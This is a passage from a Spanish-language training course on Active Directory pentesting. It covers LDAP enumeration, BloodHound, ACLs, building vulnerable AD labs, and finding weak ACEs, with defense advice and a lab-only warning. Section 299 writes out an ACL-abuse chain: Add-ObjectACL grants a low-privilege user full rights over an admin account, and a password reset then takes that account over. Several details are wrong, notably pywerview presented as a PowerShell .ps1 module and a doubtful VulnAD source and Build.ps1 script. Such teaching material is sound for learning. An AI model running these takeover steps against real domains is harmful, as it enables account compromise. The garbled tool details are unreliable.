| Extraído con              | Mimikatz, secretsdump.py, VSS, DSInternals     |
| Requiere                  | Acceso SYSTEM/Admin al DC                      |
| Protecciones recomendadas | Credential Guard, monitoreo, mínimo privilegio |

---

[🔼](#índice)

---

## **295. Ldapsearch, pywerview y jxplorer**

### 🧠 ¿Qué es LDAP?

**LDAP** (Lightweight Directory Access Protocol) es un **protocolo de acceso a servicios de directorio**, como Active Directory. Se usa para:

- Buscar usuarios, grupos, equipos, OUs
- Autenticarse
- Administrar recursos de red

Active Directory es compatible con LDAP, y muchas herramientas lo usan para leer (y a veces escribir) información.

---

### 🔍 Herramientas para consultar AD por LDAP

#### 1. **ldapsearch**

#### 2. **Pywerview**

#### 3. **JXplorer**

---

### 🧪 1. `ldapsearch`

#### 🔧 ¿Qué es?

Herramienta de línea de comandos usada para **consultar información en servidores LDAP**, incluyendo Active Directory.

---

#### ✅ Instalación (Linux)

```bash
sudo apt update
sudo apt install ldap-utils -y
```

---

#### ✅ Uso básico

```bash
ldapsearch -x -H ldap://192.168.1.100 -D "usuario@dominio.local" -w "contraseña" -b "DC=dominio,DC=local"
```

**Explicación:**

- `-x`: modo simple (sin SASL)
- `-H`: URL del servidor LDAP (puerto 389 por defecto)
- `-D`: usuario para autenticar
- `-w`: contraseña del usuario
- `-b`: base de búsqueda (en formato DN)

---

#### 🔍 Ejemplo real

```bash
ldapsearch -x -H ldap://192.168.1.100 -D "administrador@empresa.local" -w "P@ssword123" -b "DC=empresa,DC=local"
```

Busca todo el contenido del dominio `empresa.local`.

También puedes filtrar:

```bash
ldapsearch -x -H ldap://192.168.1.100 -D "administrador@empresa.local" -w "P@ssword123" -b "DC=empresa,DC=local" "(objectClass=user)" cn sAMAccountName
```

---

### 🧪 2. `Pywerview`

#### 🔧 ¿Qué es?

Una herramienta escrita en PowerShell inspirada en `PowerView`, usada para **enumeración pasiva de Active Directory**, centrada en entornos Windows.

---

#### ✅ Instalación

```powershell
git clone https://github.com/the-useless-one/pywerview.git
```

O simplemente descarga los scripts `.ps1`.

---

#### ✅ Ejemplo de uso

Desde una PowerShell con permisos:

```powershell
Import-Module .\pywerview.ps1

Get-DomainUser
Get-DomainComputer
Get-DomainGroupMember -GroupName "Administradores del dominio"
```

---

#### 📌 Notas

- No requiere privilegios para muchas consultas (lectura de usuarios, grupos, etc.)
- Ideal para entornos con defensas activas donde no puedes usar `PowerView` clásico

---

### 🧪 3. `JXplorer`

#### 🔧 ¿Qué es?

Una **herramienta gráfica** multiplataforma para explorar servidores LDAP/Active Directory. Muy útil si prefieres una interfaz visual.

---

#### ✅ Instalación

Descárgalo desde: [https://jxplorer.org](https://jxplorer.org)

> Está disponible para Windows, Linux y macOS.

---

#### ✅ Conexión al dominio

1. Abre JXplorer
2. Haz clic en **File > Connect**
3. Llena el formulario:

- **Host**: `192.168.1.100`
- **Port**: `389`
- **Base DN**: `DC=empresa,DC=local`
- **User DN**: `CN=Administrador,CN=Users,DC=empresa,DC=local`
- **Password**: `P@ssword123`

4. Clic en **OK**

Una vez dentro, podrás explorar:

- Usuarios
- Grupos
- OUs
- Atributos
- Relaciones

---

### 🧪 EJEMPLO COMPLETO

---

#### 🎯 Escenario

Quieres enumerar los usuarios y grupos de un dominio `empresa.local` cuyo DC tiene IP `192.168.1.100`. Usas una cuenta con privilegios de lectura.

---

#### 🔧 Opción 1: `ldapsearch` (Linux)

```bash
ldapsearch -x -H ldap://192.168.1.100 -D "administrador@empresa.local" -w "P@ssword123" -b "DC=empresa,DC=local" "(objectClass=user)" cn sAMAccountName
```

Obtienes una lista como:

```
dn: CN=Juan Perez,CN=Users,DC=empresa,DC=local
cn: Juan Perez
sAMAccountName: jperez

dn: CN=María Lopez,CN=Users,DC=empresa,DC=local
cn: María Lopez
sAMAccountName: mlopez
```

---

#### 🔧 Opción 2: `pywerview` (Windows PowerShell)

```powershell
Import-Module .\pywerview.ps1
Get-DomainUser
Get-DomainGroupMember -GroupName "Domain Admins"
```

Esto te muestra todos los miembros del grupo de administradores.

---

#### 🔧 Opción 3: `JXplorer` (Interfaz gráfica)

1. Conéctate como se explicó.
2. Navega hasta `CN=Users,DC=empresa,DC=local`
3. Haz doble clic en cada usuario para ver todos sus atributos
4. Puedes exportar datos o ver relaciones entre objetos

---

### 🧠 Conclusiones

| Herramienta | Tipo       | Requiere GUI | Ideal para...                            |
| ----------- | ---------- | ------------ | ---------------------------------------- |
| ldapsearch  | CLI        | No           | Linux o scripts automatizados            |
| pywerview   | PowerShell | No           | Auditorías discretas en Windows          |
| JXplorer    | GUI        | Sí           | Consultas manuales, visuales, educativas |

---

[🔼](#índice)

---

## **296. BloodHound**

## 🔎 ¿Qué es BloodHound?

**BloodHound** es una herramienta de **análisis gráfico de Active Directory (AD)** que te permite visualizar **relaciones y rutas de ataque** dentro de una red Windows. Fue creada para ayudar a pentesters y defensores a identificar:

- Rutas de privilegios (por ejemplo, cómo un usuario común puede llegar a ser administrador de dominio)
- Grupos con permisos especiales
- Configuraciones peligrosas o mal implementadas

> Utiliza técnicas de **grap theory** (teoría de grafos) para mostrar visualmente cómo se conectan los usuarios, equipos, grupos y permisos en una red AD.

---

### 🧰 ¿Qué recolecta BloodHound?

Utiliza una herramienta llamada **SharpHound** para recopilar datos como:

- Miembros de grupos
- Sesiones activas de usuarios
- ACLs (listas de control de acceso)
- Relaciones de delegación
- Permisos administrativos

Luego, esa información es cargada en BloodHound para su análisis gráfico.

---

### 🧱 Componentes principales

1. **SharpHound** – herramienta que recolecta los datos desde el dominio
2. **BloodHound GUI** – aplicación de escritorio para visualizar los datos
3. **Neo4j** – base de datos de grafos donde se almacena la información

---

### 🖥️ Requisitos

- Un entorno de dominio (AD)
- Un equipo en el dominio para ejecutar `SharpHound` (Windows)
- Un equipo (Kali Linux, Windows o cualquier SO compatible con Java) con:

  - **Neo4j**
  - **BloodHound GUI**

---

### 🔧 Instalación paso a paso

#### 🔹 Paso 1: Instalar Neo4j (en Kali Linux, por ejemplo)

```bash
sudo apt update
sudo apt install neo4j -y
```

Inicia Neo4j:

```bash
sudo neo4j console
```

Ve a tu navegador: `http://localhost:7474`

- Usuario: `neo4j`
- Contraseña: `neo4j` (te pedirá cambiarla)

> ⚠️ Guarda bien tu nueva contraseña, la usarás para conectar con BloodHound.

---

#### 🔹 Paso 2: Instalar BloodHound GUI

En Kali (o Windows), descarga desde GitHub:

👉 [https://github.com/BloodHoundAD/BloodHound/releases](https://github.com/BloodHoundAD/BloodHound/releases)

Descarga el `.deb` para Kali o el `.exe` si estás en Windows.

Instala en Kali:

```bash
sudo dpkg -i BloodHound-x.x.x.deb
sudo apt --fix-broken install
```

Lanza la app:

```bash
bloodhound
```

---

#### 🔹 Paso 3: Obtener SharpHound (recolector de datos)

Desde GitHub:

👉 [https://github.com/BloodHoundAD/SharpHound/releases](https://github.com/BloodHoundAD/SharpHound/releases)

Descarga `SharpHound.ps1` o `SharpHound.exe`

---

### 🧪 Ejemplo básico paso a paso

#### 🎯 Escenario:

- Tienes una red con un DC: `192.168.1.100`
- Estás logueado con un usuario del dominio: `usuario1@empresa.local`
- Quieres analizar cómo ese usuario puede escalar privilegios

---

##### 🔹 1. Ejecutar SharpHound en el equipo del dominio

Usa PowerShell:

```powershell
.\SharpHound.exe -c all
```

O bien:

```powershell
Import-Module .\SharpHound.ps1
Invoke-BloodHound -CollectionMethod All -Verbose
```

Esto genera un archivo `.zip` con toda la información recolectada.

---

##### 🔹 2. Abrir BloodHound GUI

1. Inicia BloodHound
2. Conéctate a Neo4j (te pedirá el password que creaste)
3. Haz clic en el ícono de **upload** (flecha hacia arriba)
4. Sube el archivo `.zip` generado por SharpHound

---

##### 🔹 3. Explorar la red

Una vez cargados los datos:

- Usa las **queries predefinidas** como:

  - "Find Shortest Paths to Domain Admins"
  - "List all Kerberoastable users"
  - "List all users with unconstrained delegation"

Puedes hacer clic sobre los nodos (usuarios, equipos, grupos) y ver sus relaciones visuales.

---

### 🎓 Ejemplo real simple

**Usuario `juan@empresa.local` quiere saber si puede llegar a ser Domain Admin.**

1. Ejecuta SharpHound en su PC:

   ```powershell
   .\SharpHound.exe -c all
   ```

2. Carga los datos en BloodHound

3. En BloodHound, ejecuta:

   > `Find Shortest Paths to Domain Admins from juan@empresa.local`

4. Resultado: te mostrará si ese usuario puede:

   - Pasar por otros grupos
   - Usar sesiones activas
   - Explotar delegación
   - Escalar a DA (Domain Admin)

---

### 🧠 ¿Para qué sirve en ciberseguridad?

🔐 **Red Team / Pentesting interno**:

- Ver cómo un atacante podría moverse lateralmente por el dominio
- Identificar usuarios con privilegios excesivos
- Encontrar configuraciones peligrosas (delegación, ACLs incorrectas)

🛡️ **Blue Team / Defensores**:

- Auditar relaciones de privilegios
- Ver rutas de escalamiento que deben bloquearse
- Fortalecer la seguridad del dominio

---

### 🧾 Resumen

| Elemento   | Descripción                                      |
| ---------- | ------------------------------------------------ |
| BloodHound | Herramienta gráfica de análisis de AD            |
| SharpHound | Recolector de datos del dominio                  |
| Neo4j      | Base de datos de grafos donde se guarda la info  |
| Requiere   | Acceso al dominio, PowerShell, BloodHound GUI    |
| Ideal para | Enumeración de rutas de privilegios y relaciones |

---

[🔼](#índice)

---

## **297. Descriptores de seguridad y ACLs**

### 🔐 ¿Qué son los Descriptores de Seguridad y ACLs?

En Windows y Active Directory (AD), **cada objeto del sistema** (como un archivo, carpeta, clave de registro, objeto de AD, etc.) tiene un **descriptor de seguridad**, que define:

1. **Quién es el propietario del objeto**
2. **Quién puede acceder o modificar el objeto**
3. **Qué tipo de acceso se permite o deniega**

Estos permisos se almacenan en una **ACL (Access Control List)**.

---

### 🧱 Estructura de un Descriptor de Seguridad

Un descriptor de seguridad tiene 4 partes principales:

| Parte                        | Descripción                                                                                            |
| ---------------------------- | ------------------------------------------------------------------------------------------------------ |
| **Owner (Propietario)**      | El usuario o grupo que tiene control total del objeto.                                                 |
| **Group (Grupo)**            | Grupo principal asociado al objeto (no muy usado).                                                     |
| **DACL (Discretionary ACL)** | Lista de control de acceso que define qué usuarios/grupos pueden acceder al objeto y qué pueden hacer. |
| **SACL (System ACL)**        | Define qué eventos se auditan (por ejemplo, acceso fallido), se usa con directivas de auditoría.       |

---

### 🧾 ¿Qué es una DACL?

Una **DACL** (Discretionary Access Control List) contiene una lista de entradas llamadas **ACEs** (Access Control Entries).

Cada ACE indica:

- A quién se aplica (usuario o grupo)
- Qué permisos se otorgan o deniegan
- Si se aplica a objetos hijos o no

Por ejemplo:

```plaintext
Allow: Juan - Read
Allow: Administradores - FullControl
Deny: Invitados - Write
```

---

### 🔐 Tipos de permisos comunes

| Permiso       | Significado                 |
| ------------- | --------------------------- |
| FullControl   | Control total               |
| Read          | Leer datos                  |
| Write         | Escribir datos              |
| Modify        | Modificar contenido         |
| ListDirectory | Ver contenido (en carpetas) |
| Delete        | Eliminar objeto             |

---

### 🔧 Cómo ver los Descriptores y ACLs

#### 🔹 Opción 1: Desde GUI (Explorador de Windows)

1. Haz clic derecho en un archivo o carpeta
2. Propiedades > Seguridad
3. Verás los usuarios y permisos
4. Haz clic en **Avanzado** para ver el propietario, herencia, permisos especiales

---

#### 🔹 Opción 2: PowerShell

Puedes usar PowerShell para ver ACLs:

```powershell
Get-Acl "C:\Carpeta" | Format-List
```

Resultado ejemplo:

```powershell
Path   : C:\Carpeta
Owner  : DOMINIO\Administrador
Access : DOMINIO\Juan Allow  ReadAndExecute
         DOMINIO\Invitados Deny Write
```

---

### ✏️ Cómo modificar ACLs

#### 🔹 GUI

- Propiedades > Seguridad > Editar > Agregar/Quitar usuarios > Seleccionar permisos

#### 🔹 PowerShell

**Ejemplo: Dar permiso de lectura a un usuario**

```powershell
$acl = Get-Acl "C:\Carpeta"
$perm = New-Object System.Security.AccessControl.FileSystemAccessRule("DOMINIO\Juan", "Read", "Allow")
$acl.SetAccessRule($perm)
Set-Acl "C:\Carpeta" $acl
```

---

### 🧪 Ejemplo completo

#### 🎯 Objetivo:

- Tienes una carpeta `C:\Finanzas`
- Quieres:

  - Que el grupo `Finanzas` tenga **Control total**
  - Que `Invitados` **no puedan escribir**
  - Que el usuario `Gerente` tenga solo **lectura**

##### 🔹 Paso 1: Crear usuarios y grupos (en AD)

```powershell
New-ADGroup -Name "Finanzas" -GroupScope Global -Path "OU=Departamentos,DC=empresa,DC=local"
New-ADUser -Name "Gerente" -SamAccountName "gerente" -AccountPassword (ConvertTo-SecureString "P@ssw0rd" -AsPlainText -Force) -Enabled $true
Add-ADGroupMember -Identity "Finanzas" -Members gerente
```

##### 🔹 Paso 2: Crear carpeta y aplicar permisos

```powershell
New-Item -Path "C:\Finanzas" -ItemType Directory

$acl = Get-Acl "C:\Finanzas"

# Control total al grupo Finanzas
$rule1 = New-Object System.Security.AccessControl.FileSystemAccessRule("DOMINIO\Finanzas","FullControl","ContainerInherit,ObjectInherit","None","Allow")

# Solo lectura para Gerente
$rule2 = New-Object System.Security.AccessControl.FileSystemAccessRule("DOMINIO\Gerente","ReadAndExecute","ContainerInherit,ObjectInherit","None","Allow")

# Denegar escritura a Invitados
$rule3 = New-Object System.Security.AccessControl.FileSystemAccessRule("DOMINIO\Invitados","Write","ContainerInherit,ObjectInherit","None","Deny")

$acl.AddAccessRule($rule1)
$acl.AddAccessRule($rule2)
$acl.AddAccessRule($rule3)

Set-Acl -Path "C:\Finanzas" -AclObject $acl
```

##### 🔹 Paso 3: Verificar permisos

```powershell
Get-Acl "C:\Finanzas" | Format-List
```

---

### 📍 ¿Dónde se usan ACLs en Active Directory?

- Objetos de AD: usuarios, OU, GPOs
- Carpetas compartidas (DFS, Sysvol)
- Archivos y recursos del sistema
- Claves del registro

---

### 🔐 ¿Qué es una SACL?

Una **SACL** define qué eventos deben auditarse. Ejemplo: registrar cuándo alguien intenta leer una carpeta.

Se configura con directivas de auditoría y puede ser vista con:

```powershell
(Get-Acl "C:\Carpeta").Audit
```

---

### 🧠 ¿Por qué es importante en ciberseguridad?

- Permite detectar **excesos de permisos** (por ejemplo, usuarios comunes con acceso de escritura en lugares críticos)
- Ayuda a configurar el principio de **mínimo privilegio**
- Permite establecer controles de auditoría con SACLs
- Las herramientas como **BloodHound** y **PowerView** leen ACLs para detectar rutas de ataque

---

### ✅ Resumen

| Elemento                | Explicación breve                          |
| ----------------------- | ------------------------------------------ |
| Descriptor de seguridad | Define dueño y permisos de un objeto       |
| DACL                    | Lista de permisos de acceso                |
| SACL                    | Lista de eventos a auditar                 |
| ACE                     | Entrada individual en una ACL              |
| PowerShell útil         | `Get-Acl`, `Set-Acl`, `New-Object`         |
| Casos de uso            | Archivos, carpetas, AD, claves de registro |

---

[🔼](#índice)

---

## **298. Vulnerable AD**

### 🔐 ¿Qué es un "Vulnerable AD"?

Un **Vulnerable Active Directory** es un **laboratorio de prueba** que simula un entorno real de dominio (con usuarios, grupos, máquinas, políticas, etc.) pero **configurado con errores y vulnerabilidades comunes**. Este tipo de entorno es ideal para:

- Practicar **pentesting** y **ethical hacking**
- Aprender **enumeración**, **privilege escalation** y **movimiento lateral**
- Estudiar cómo funciona Active Directory a nivel técnico
- Realizar pruebas sin dañar una red real

---

### 🎯 Ejemplos de vulnerabilidades comunes en AD

| Vulnerabilidad                          | Descripción corta                           |
| --------------------------------------- | ------------------------------------------- |
| Usuarios con contraseñas débiles        | Facilita ataques por fuerza bruta           |
| Delegaciones inseguras                  | Permite robar tickets Kerberos              |
| SPNs expuestos                          | Vulnerables a ataques de Kerberoasting      |
| Permisos excesivos en OUs o GPOs        | Privilege escalation                        |
| Credenciales guardadas en descripciones | Visibles con herramientas como PowerView    |
| Objetos mal configurados                | Permiten abuso con BloodHound, Rubeus, etc. |

---

### 🧪 ¿Cómo crear tu propio “Vulnerable AD”?

Vamos a hacerlo paso a paso con herramientas conocidas y gratuitas.

#### Opción recomendada: **Instalar "VulnAD" o "BadBlood"**

---

##### 🔹 OPCIÓN 1: Usar VulnAD

[VulnAD](https://github.com/Orange-Cyberdefense/VulnAD) es un proyecto gratuito que crea un dominio con configuraciones intencionalmente inseguras.

#### 🧰 Requisitos

- Hyper-V, VirtualBox o VMware
- Windows Server 2019 ISO
- ISO de Windows 10
- Git + PowerShell en la máquina host

#### 🚀 Pasos de instalación resumidos

1. **Descargar el repositorio:**

```bash
git clone https://github.com/Orange-Cyberdefense/VulnAD.git
```

2. **Ejecutar el script de creación en PowerShell:**

```powershell
cd VulnAD
.\Build.ps1
```

3. Sigue las instrucciones. El script creará y configurará las máquinas virtuales automáticamente con:

- Un **controlador de dominio (DC)**
- Una o más máquinas Windows 10 unidas al dominio
- Usuarios con contraseñas débiles
- SPNs mal configurados
- Delegaciones abiertas

🎯 **Todo listo para pruebas de ataques como**: Kerberoasting, DCSync, AS-REP Roasting, Pass-the-Hash, etc.

---

#### 🔹 OPCIÓN 2: Usar BadBlood (carga masiva de objetos vulnerables)

[BadBlood](https://github.com/davidprowe/BadBlood) es un script en PowerShell que **inyecta cientos de usuarios, grupos, OUs y configuraciones inseguras** en un dominio ya existente.

##### ✅ Requisitos previos:

- Tener un dominio en marcha (un Windows Server 2016/2019 con AD instalado)

##### 🔧 Instalación

```powershell
git clone https://github.com/davidprowe/BadBlood.git
cd BadBlood
.\BadBlood.ps1
```

Este script genera:

- Usuarios con contraseñas obvias como `Summer2024!`
- Descripciones con contraseñas en texto plano
- Grupos y relaciones entre usuarios vulnerables
- OUs con permisos mal configurados

---

### 🧪 EJEMPLO COMPLETO: Instalar VulnAD y hacer prueba de enumeración

#### 🎯 Objetivo:

Crear un laboratorio de AD vulnerable y hacer la enumeración básica con `PowerView`.

---

#### 🧱 PASO 1: Clonar VulnAD

```bash
git clone https://github.com/Orange-Cyberdefense/VulnAD.git
cd VulnAD
```

---

#### ⚙️ PASO 2: Ejecutar `Build.ps1` como administrador en PowerShell

```powershell
.\Build.ps1
```

Esto creará:

- `VulnAD-DC` (Controlador de dominio)
- `VulnAD-W10` (Máquina cliente en el dominio)
- Dominio: `vulnad.local`

---

#### 🧪 PASO 3: Enumerar con PowerView (dentro de VulnAD-W10)

1. Copia PowerView\.ps1 (parte de PowerSploit)
2. Ejecuta PowerShell como admin en `VulnAD-W10`
3. Ejecuta:

```powershell
Import-Module .\PowerView.ps1
Get-NetUser -UserName * | select samaccountname,description
```

🔍 Esto te mostrará usuarios y descripciones. En muchos casos verás:

```plaintext
User: adminhelp
Description: Password is Admin123
```

🎯 ¡Una credencial encontrada por error humano!

---

#### 🧪 PASO 4: Enumerar delegación

```powershell
Get-DomainComputer -TrustedToAuth
```

Esto te dirá si hay delegación insegura (se puede explotar con `Rubeus`).

---

#### 🧪 PASO 5: Explorar relaciones con BloodHound

- En `VulnAD-W10`, lanza Sharphound para recolectar datos:

```powershell
.\SharpHound.exe -c all
```

- Abre BloodHound y carga los datos.
- Visualiza relaciones peligrosas, por ejemplo: un usuario común con permisos de `GenericAll` sobre un administrador.

---

### 🔒 Advertencia legal

> Todos los laboratorios y herramientas mencionadas deben usarse **solo en entornos controlados y con fines educativos**. No está permitido usarlas en redes reales sin autorización explícita.

---

### ✅ RESUMEN

| Concepto              | Descripción                                       |
| --------------------- | ------------------------------------------------- |
| Vulnerable AD         | Entorno simulado con errores de seguridad         |
| Herramientas          | VulnAD, BadBlood, PowerView, BloodHound           |
| Qué aprendes          | Enumeración, explotación, escalada de privilegios |
| Qué necesitas         | Hyper-V, VirtualBox o VMware, Windows Server & 10 |
| Escenario recomendado | VulnAD por facilidad y realismo                   |

---

[🔼](#índice)

---

## **299. Identificación de ACLs vulnerables**

### 🔐 ¿Qué son las ACLs en Active Directory?

**ACL (Access Control List)** o "Lista de Control de Acceso" es un conjunto de reglas que determinan **quién tiene permisos sobre qué objetos** en Active Directory (usuarios, grupos, equipos, OUs, GPOs, etc.).

Una ACL contiene varias **ACE (Access Control Entries)**. Cada ACE le otorga o le niega permisos a un usuario o grupo.

---

### 📌 ¿Por qué es importante?

Una ACL mal configurada puede permitir que **un usuario sin privilegios administre, modifique o incluso borre un objeto importante** del dominio.
Esto se puede usar para hacer **escalada de privilegios**, **persistencia**, **movimiento lateral**, etc.

---

### 🧠 Ejemplos simples

#### 1. Usuario común puede modificar a otro

Supón que el usuario `soporte01` tiene permiso sobre el usuario `adminTI` para **resetear su contraseña**.

Eso significa que puede hacer esto:

```powershell
Set-ADAccountPassword -Identity adminTI -NewPassword (ConvertTo-SecureString "Nuevo123!" -AsPlainText -Force) -Reset
```

¡Listo! `soporte01` ya puede acceder como `adminTI`. 😮

---

#### 2. Usuario puede modificar ACL de otro

Imagina que `user01` tiene permiso para modificar permisos (WriteDACL) sobre una GPO o un usuario privilegiado.

Entonces puede agregar nuevas ACEs y hacerse con el control del objeto.

---

### 🧰 Herramientas para identificar ACLs vulnerables

1. **PowerView** (PowerShell)
2. **BloodHound** (GUI para visualizar relaciones peligrosas)
3. **AD ACL Scanner** (herramienta para exportar todas las ACLs)
4. **SharpHound** (recolector de datos para BloodHound)

---

### 🛠️ Instalación de PowerView (PowerShell)

1. Descarga PowerView desde:
   [https://github.com/PowerShellMafia/PowerSploit/tree/master/Recon](https://github.com/PowerShellMafia/PowerSploit/tree/master/Recon)

2. Ejecuta PowerShell como administrador

```powershell
Import-Module .\PowerView.ps1
```

---

### 🔍 Comandos útiles de PowerView para enumerar ACLs

#### Ver permisos sobre un usuario:

```powershell
Get-ObjectAcl -SamAccountName "adminTI" -ResolveGUIDs
```

#### Ver si un usuario tiene WriteDACL o GenericAll:

```powershell
Get-ObjectAcl -SamAccountName "adminTI" -ResolveGUIDs | ? { $_.ActiveDirectoryRights -match "WriteDACL|GenericAll" }
```

#### Buscar permisos delegados sobre OUs:

```powershell
Get-DomainOU | % { Get-ObjectAcl -DistinguishedName $_.distinguishedname -ResolveGUIDs } | ? { $_.ActiveDirectoryRights -match "GenericAll" }
```

---

### 🧠 ¿Qué debes buscar?

Permisos peligrosos:

| Permiso           | Descripción                     |
| ----------------- | ------------------------------- |
| **GenericAll**    | Control total                   |
| **WriteDACL**     | Modificar la ACL                |
| **WriteOwner**    | Cambiar dueño del objeto        |
| **ResetPassword** | Puede resetear password de otro |
| **GenericWrite**  | Puede modificar propiedades     |

---

### 🔎 Análisis visual con BloodHound

1. En una máquina unida al dominio, descarga SharpHound (parte de BloodHound):

```powershell
.\SharpHound.exe -c all
```

2. Copia los archivos `.json` al equipo donde tengas **BloodHound** y ábrelos.

3. Usa queries como:

```plaintext
Find Principals with DCSync Rights
Find Users with GenericAll on High-Value Targets
Find Users with WriteDACL Permissions
```

4. BloodHound te mostrará relaciones peligrosas como:

- `soporte01` → GenericAll → `Administrador`
- `user02` → WriteDACL → `Grupo: Administradores del Dominio`

🔴 Eso significa que esos usuarios **pueden obtener control del dominio** con técnicas como **DCSync**, **ACL abuse**, o **Pass-the-Hash**.

---

### ✅ EJEMPLO COMPLETO

#### Escenario:

- El usuario `intern01` tiene permiso WriteDACL sobre el usuario `adminTI`.
- Usamos PowerView para confirmarlo.
- Luego modificamos el ACL para añadirnos nosotros como controladores.

---

#### Paso 1: Cargar PowerView

```powershell
Import-Module .\PowerView.ps1
```

#### Paso 2: Verificar los permisos de intern01 sobre adminTI

```powershell
Get-ObjectAcl -SamAccountName "adminTI" -ResolveGUIDs | Where-Object { $_.IdentityReference -like "*intern01*" }
```

Resultado esperado:

```plaintext
intern01 → WriteDACL
```

#### Paso 3: Usar PowerView para darnos control total (si quisiéramos)

> ⚠️ SOLO en entornos de laboratorio

```powershell
Add-ObjectACL -TargetSamAccountName adminTI -PrincipalSamAccountName intern01 -Rights All
```

---

#### Paso 4: Resetear contraseña y acceder como adminTI

```powershell
Set-ADAccountPassword -Identity adminTI -NewPassword (ConvertTo-SecureString "Nuevo123!" -AsPlainText -Force) -Reset
```

---

### 🛡️ ¿Cómo protegerse?

- Revisar las ACLs de objetos sensibles
- Usar herramientas como **PingCastle** o **BloodHound** para auditorías periódicas
- Evitar delegaciones excesivas
- No permitir WriteDACL a usuarios no administradores
- Revisar grupos con permisos sobre objetos privilegiados

---

### 📌 RESUMEN

| Tema            | Detalles                                                     |
| --------------- | ------------------------------------------------------------ |
| ACLs            | Permisos sobre objetos AD                                    |
| ACE             | Entrada específica: quién puede hacer qué                    |
| Herramientas    | PowerView, BloodHound, SharpHound                            |
| ACLs peligrosas | GenericAll, WriteDACL, WriteOwner, ResetPassword             |
| Ejemplo         | intern01 → WriteDACL sobre adminTI → puede resetear su clave |
| Prevención      | Auditorías regulares, uso limitado de permisos delegados     |

---

[🔼](#índice)

---

## **300. Listado de ACEs vulnerables**

### 🧠 ¿Qué es una ACE?

**ACE** (Access Control Entry) es una entrada en una ACL (Access Control List) que define **quién puede hacer qué** sobre un objeto en Active Directory.

Ejemplo simple de ACE:

> `UsuarioX` tiene permiso de `Modificar contraseña` sobre el objeto `UsuarioAdministrador`

---

### ⚠️ ¿Qué es una ACE vulnerable?

Una **ACE vulnerable** es una entrada de control de acceso que **otorga a un usuario no privilegiado demasiados permisos**, lo cual **puede ser explotado para escalada de privilegios o persistencia**.

---

### 🧨 ACEs peligrosas comunes

| Permiso (ACE)           | Significado                                       | Riesgo               |
| ----------------------- | ------------------------------------------------- | -------------------- |
| **GenericAll**          | Control total sobre el objeto                     | Peligrosísimo        |
| **WriteDACL**           | Puede modificar las ACLs del objeto               | Escalada             |
| **WriteOwner**          | Puede cambiar el propietario del objeto           | Escalada             |
| **GenericWrite**        | Puede cambiar atributos del objeto                | Persistencia         |
| **ResetPassword**       | Puede cambiar la contraseña sin saber la anterior | Control de cuentas   |
| **AddMember**           | Puede agregar miembros a un grupo                 | Movimiento lateral   |
| **ForceChangePassword** | Puede resetear password sin conocimiento previo   | Secuestro de cuentas |

---

### 🛠️ Herramientas para listar ACEs vulnerables

#### ✅ 1. **PowerView** (PowerShell)

- Muy útil para consultar permisos en objetos del dominio.

#### ✅ 2. **BloodHound** + **SharpHound**

- Muestra visualmente relaciones peligrosas y ACEs con queries ya listas.

#### ✅ 3. **AD ACL Scanner**

- Analiza de forma masiva las ACLs del dominio.

---

### 🧰 Instalación rápida de herramientas

#### ▶️ PowerView

1. Descarga desde GitHub:
   [https://github.com/PowerShellMafia/PowerSploit/tree/master/Recon](https://github.com/PowerShellMafia/PowerSploit/tree/master/Recon)

2. En PowerShell:

```powershell
Import-Module .\PowerView.ps1
```

---

#### ▶️ BloodHound + SharpHound

1. Descarga BloodHound GUI:
   [https://github.com/BloodHoundAD/BloodHound](https://github.com/BloodHoundAD/BloodHound)

2. Descarga SharpHound desde el mismo repositorio (carpeta `Collectors`)

3. Ejecuta recolección:

```powershell
.\SharpHound.exe -c All
```

4. Importa el archivo generado en la interfaz de BloodHound

---

### 🔍 Comandos para listar ACEs vulnerables

#### 🔸 Listar permisos peligrosos sobre un objeto (usuario):

```powershell
Get-ObjectAcl -SamAccountName "adminTI" -ResolveGUIDs
```

Filtrar ACEs peligrosas:

```powershell
Get-ObjectAcl -SamAccountName "adminTI" -ResolveGUIDs | ? {
  $_.ActiveDirectoryRights -match "GenericAll|WriteDACL|WriteOwner|GenericWrite|ResetPassword"
}
```

---

#### 🔸 Ver si algún usuario no privilegiado tiene derechos peligrosos sobre algún objeto

```powershell
Get-DomainUser | ForEach-Object {
  Get-ObjectAcl -SamAccountName $_.SamAccountName -ResolveGUIDs | Where-Object {
    $_.IdentityReference -like "*usuarios_del_dominio*" -and
    $_.ActiveDirectoryRights -match "GenericAll|WriteDACL|WriteOwner"
  }
}
```

---

### ✅ EJEMPLO COMPLETO: Listado de ACEs vulnerables

#### 🎯 Escenario

Queremos ver si algún usuario normal (`soporte01`) tiene control indebido sobre algún objeto sensible (ej: `Administrador`, `OU`, `GPO`, etc.)

---

#### 🔹 PASO 1: Cargar PowerView

```powershell
Import-Module .\PowerView.ps1
```

---

#### 🔹 PASO 2: Buscar ACEs peligrosas sobre el usuario "adminTI"

```powershell
Get-ObjectAcl -SamAccountName "adminTI" -ResolveGUIDs | Where-Object {
  $_.ActiveDirectoryRights -match "GenericAll|WriteDACL|WriteOwner"
}
```

📌 Resultado esperado:

```
NT AUTHORITY\Authenticated Users → WriteDACL
LAB\soporte01 → GenericAll
```

¡Eso es peligroso! Quiere decir que `soporte01` puede controlar a `adminTI`.

---

#### 🔹 PASO 3 (opcional): Ver si un usuario puede resetear contraseña

```powershell
Get-ObjectAcl -SamAccountName "adminTI" -ResolveGUIDs | ? {
  $_.ActiveDirectoryRights -match "ResetPassword|ForceChangePassword"
}
```

---

#### 🔹 PASO 4: Usar BloodHound para visualizar relaciones

1. Ejecuta SharpHound en una máquina del dominio:

```powershell
.\SharpHound.exe -c ACL
```

2. Copia el archivo `.zip` a tu máquina con BloodHound y cárgalo.

3. Usa estas queries dentro de BloodHound:

- **Find Principals with DCSync Rights**
- **Users with GenericAll over Domain Admins**
- **Users with WriteDACL on Domain Objects**

---

### 🛡️ ¿Cómo defenderse?

- Usar `Effective Permissions` en ADUC (clic derecho → Propiedades → Seguridad → Avanzado)
- Ejecutar regularmente BloodHound o AD ACL Scanner
- Minimizar delegaciones y revisarlas
- Nunca dar **GenericAll**, **WriteDACL**, **WriteOwner** a usuarios no administradores
- Auditar cambios a objetos sensibles

---

### 📌 RESUMEN RÁPIDO

| Elemento      | Significado                                                    |
| ------------- | -------------------------------------------------------------- |
| ACE           | Entrada de control sobre un objeto AD                          |
| ACL           | Conjunto de ACEs                                               |
| Vulnerables   | ACEs que dan demasiados permisos a usuarios normales           |
| Herramientas  | PowerView, BloodHound, AD ACL Scanner                          |
| Ejemplo clave | soporte01 tiene GenericAll sobre adminTI → puede tomar control |
| Prevención    | Auditorías, delegaciones mínimas, revisiones regulares         |

---

[🔼](#índice)

---

